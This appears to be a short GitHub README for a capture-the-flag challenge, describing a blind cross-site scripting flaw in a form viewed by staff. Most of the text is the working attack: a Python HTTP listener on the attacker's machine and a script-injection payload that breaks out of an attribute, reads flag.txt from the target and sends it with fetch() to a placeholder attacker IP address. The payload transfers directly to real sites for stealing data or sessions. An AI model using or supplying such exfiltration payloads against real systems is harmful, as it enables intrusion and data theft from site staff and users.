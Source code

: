 # Blind-XSS-Script
This behavior introduces a Blind XSS vulnerability, as any malicious JavaScript injected through the form is executed on the staff’s side, potentially compromising sensitive data or functionality.
Exploitation Process

1. Setting Up the Listener

To capture the exfiltrated data, an HTTP server was set up on the attacker’s machine:

python3 -m http.server 8000

This server listens for incoming requests, which will contain the sensitive data exfiltrated from the target.

2. Crafting the Exploit Payload

The goal of the exploit was twofold:

    Retrieve the flag located at http://127.0.0.1:8080/flag.txt.
    Exfiltrate the data to the attacker’s HTTP server.

The crafted payload was as follows:

'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>

The payload first fetches the flag from the target server, encodes it to ensure safe transmission, and sends it to the attacker’s server via a GET request.

The flag.txt is base64 encoded. To decode it, you can use the terminal or visit dencode.com, paste your encoded string, and retrieve the flag.
